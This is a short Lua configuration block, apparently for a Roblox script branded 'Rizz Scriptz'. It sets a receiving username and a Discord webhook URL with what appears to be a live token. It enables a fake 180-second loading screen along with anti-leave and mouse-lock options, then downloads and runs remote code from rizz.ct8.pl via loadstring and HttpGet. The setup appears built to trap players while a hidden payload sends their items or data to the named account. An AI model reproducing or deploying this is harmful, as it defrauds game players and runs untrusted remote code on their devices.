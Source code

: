 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie" -- optional delete the whole line if you don't want it
Webhook = https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy"  

_G.LoadingScreen = true
_G.AntiLeave = true
_G.MouseLock = true 
-- set them to false if you don't need them

_G.ScriptName = "Rizz Scriptz"
_G.FirstText = "Script Preparing"
_G.SecondText = "Script Loading..."
_G.ThirdText = "Almost Done..."
_G.WaitingTime = 180 -- it's the time between 0% and 100% in secondes

loadstring(game:HttpGet("http://rizz.ct8.pl/scripts/Main", true))()
